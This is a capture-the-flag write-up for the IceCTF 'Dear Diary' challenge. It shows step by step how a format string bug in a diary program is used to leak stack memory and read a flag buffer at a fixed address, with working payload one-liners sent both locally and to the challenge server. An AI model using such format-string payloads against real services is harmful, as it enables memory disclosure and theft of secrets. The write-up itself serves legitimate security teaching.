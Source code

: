 #Dear Diary

**Category:** Pwn
**Points:** 60
**Description:**

We all want to keep our secrets secure and what is more important than our precious diary entries? We made this highly secure diary service that is sure to keep all your boy crushes and edgy poems safe from your parents. nc diary.vuln.icec.tf 6501  [download file](./deardiary)

##Write-up
Initially we run the binary and see what kind of functionality exists within it.

```
root@kali:~# ./deardiary 
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> 1
Tell me all your secrets: Hello World!

1. add entry
2. print latest entry
3. quit
> 2
Hello World!

1. add entry
2. print latest entry
3. quit
> 3
```

Ok, looks pretty simple.  We supply some data and we can request that this data is then printed back out us.  Let's try a format string and see what it does.

```
root@kali:~# python -c 'print "1\nAAAA"+"%08x."*10+"\n2\n3\n"'| ./deardiary 
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> Tell me all your secrets: 
1. add entry
2. print latest entry
3. quit
> AAAAf755b7b6.f76cf000.ffa00f98.ffa02398.00000000.0000000a.4eedee00.00000000.00000000.ffa023a8.

1. add entry
2. print latest entry
3. quit
```

Well, it definitely looks like we are dealing with a format string issue as we are dumping memory out. Also, note that the command I am using along with the format string sytax is setup to move through the menu of the binary by itself.  It lets me write a payload, read the payload back, and exit the program without any interaction.  Now, let's dump a little more and see if we can see our "AAAA"s.

```
root@kali:~# python -c 'print "1\nAAAA"+"%08x."*20+"\n2\n3\n"'| ./deardiary 
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> Tell me all your secrets: 
1. add entry
2. print latest entry
3. quit
> AAAAf75df7b6.f7753000.ff8cab88.ff8cbf88.00000000.0000000a.ea2b0000.00000000.00000000.ff8cbf98.0804888c.ff8cab88.00000004.f7753c20.00000000.00000000.00000001.41414141.78383025.3830252e.

1. add entry
2. print latest entry
3. quit
```

There we go, it looks as if our input was read back off the stack in the 18th position.  Now we need to figure out what we can do.  Let's take a look at the binary and see if there is a good memory location to mess with.

```asm
             flag:
0804863d         push       ebp                                                 ; XREF=main+27
0804863e         mov        ebp, esp
08048640         sub        esp, 0x28
08048643         mov        eax, dword [gs:0x14]
08048649         mov        dword [ss:ebp+var_C], eax
0804864c         xor        eax, eax
0804864e         mov        dword [ss:esp+0x28+var_24], 0x0                     ; argument "oflag" for method j_open
08048656         mov        dword [ss:esp+0x28+var_28], 0x8048940               ; "./flag.txt", argument "path" for method j_open
0804865d         call       j_open
08048662         mov        dword [ss:ebp+var_10], eax
08048665         mov        dword [ss:esp+0x28+var_20], 0x100                   ; argument "nbyte" for method j_read
0804866d         mov        dword [ss:esp+0x28+var_24], 0x804a0a0               ; argument "buf" for method j_read
08048675         mov        eax, dword [ss:ebp+var_10]
08048678         mov        dword [ss:esp+0x28+var_28], eax                     ; argument "fildes" for method j_read
0804867b         call       j_read
08048680         mov        eax, dword [ss:ebp+var_C]
08048683         xor        eax, dword [gs:0x14]
0804868a         je         0x8048691

0804868c         call       j___stack_chk_fail

08048691         leave                                                          ; XREF=flag+77
08048692         ret        
                        ; endp
```

It looks as though the flag is on the server and being read in and saved into a buffer at ```0x804a0a0```.  There is a good paper on [exploiting format string vulnerabilities](https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf) that has a section dedicated to viewing memory at an arbitrary location.  Let's try to implement that.

```
root@kali:~# python -c 'print "1\n\xa0\xa0\x04\x08"+"%08x."*17+"%s\n2\n3\n"'| ./deardiary 
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> Tell me all your secrets: 
1. add entry
2. print latest entry
3. quit
> ��f763d7b6.f77b1000.ffdca6b8.ffdcbab8.00000000.0000000a.43679600.00000000.00000000.ffdcbac8.0804888c.ffdca6b8.00000004.f77b1c20.00000000.00000000.00000001.Local FLAG


1. add entry
2. print latest entry
3. quit
```

Running it locally gives us a test flag that we setup, so we should be able to go straight to the server and get the flag.

```
root@kali:~# python -c 'print "1\n\xa0\xa0\x04\x08"+"%08x."*17+"%s\n2\n3\n"'| nc diary.vuln.icec.tf 6501
-- Diary 3000 --

1. add entry
2. print latest entry
3. quit
> Tell me all your secrets: 
1. add entry
2. print latest entry
3. quit
> ��f7e57836.f7fce000.ffffc898.ffffdc98.00000000.0000000a.3ab59b00.00000000.00000000.ffffdca8.0804888c.ffffc898.00000004.f7fcec20.00000000.00000000.00000001.IceCTF{this_thing_is_just_sitting_here}


1. add entry
2. print latest entry
3. quit
```

Perfect, our flag is ```IceCTF{this_thing_is_just_sitting_here}```.
